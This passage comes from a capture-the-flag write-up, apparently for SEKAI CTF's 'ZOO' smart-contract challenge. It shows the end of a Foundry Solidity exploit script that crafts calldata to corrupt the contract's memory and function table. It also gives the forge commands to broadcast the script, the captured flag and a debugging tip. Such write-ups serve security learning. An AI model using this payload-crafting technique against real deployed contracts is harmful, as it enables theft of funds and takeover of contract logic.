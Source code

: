```solidity
        target_idx += 1;

        bytes memory call = "";
        bytes memory fake_animal = abi.encodePacked(uint256(target_idx), uint256(0x20), hex"41414141");
        call = abi.encodePacked(call, uint8(0x10),uint8(0x00),uint16(fake_animal.length),uint16(first_alloc), fake_animal);
        call = abi.encodePacked(call, hex"3000");
        call = abi.encodePacked(call, uint8(0x20),uint8(0x07),uint8(0x22), uint16(function_table));
        call = abi.encodePacked(call, hex"3000");
        call = abi.encodePacked(call, uint8(0x20),uint8(0x07),uint8(0x22), uint16(target_jmp));
        call = abi.encodePacked(call, uint8(0x20),uint8(0x06),uint8(0x22), uint16(local_animal));
        call = abi.encodePacked(call, hex"3000");
        call = abi.encodePacked(call, uint8(0x20),uint8(0x07),uint8(0x22), uint16(fake_animal_idx));
        call = abi.encodePacked(call, uint8(0x10),uint8(0x01),uint16(4),uint16(0x00),hex"41414141");
        call = abi.encodePacked(call, uint8(0x10),uint8(0x01),uint16(4),uint16(0x00),hex"41414141");
        call = abi.encodePacked(call, uint8(0x10),uint8(0x01),uint16(4),uint16(0x00),hex"41414141");

        uint256 length = call.length;
        console2.log("length", length);
        uint256 target = 0x200 - length;
        for (uint i = 0; i < target; i++) {
            call = abi.encodePacked(call, hex"ba");
        }
        (bool success, bytes memory out) = address(zoo).call(call);
        console2.log("solved?", setup.isSolved());
        assert(setup.isSolved());
        vm.stopBroadcast();
    }
}
```

```sh
export RPC=<rpc>
export PVKEY=<pvKey>
export SETUP=<setup-address>

forge init --force .
forge script --broadcast --rpc-url $RPC --private-key $PVKEY ./Solve.s.sol:Solve --evm-version cancun
```

> flag: SEKAI{super-duper-memory-master-:3}
### pro tip - debug
---

using [foundry debugger](https://book.getfoundry.sh/forge/debugger), you can easily debug the contract :3 
```solidity
pragma solidity ^0.8.24;

import {Test, console2} from "forge-std/Test.sol";
import {ZOO} from "src/ZOO.sol";
import {IERC721Receiver} from "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
contract ZOOTest is Test {
    function test_run() public {
        ZOO zoo = new ZOO();

        // ADD(1) | IDX(1) | NAME_LENGTH(2) | TYPE(2) | NAME(NAME_LENGTH)
        // EDIT(1) | IDX(1) | EDIT_TYPE(1) | NAME_LENGTH(2) | NAME(NAME_LENGTH)
```
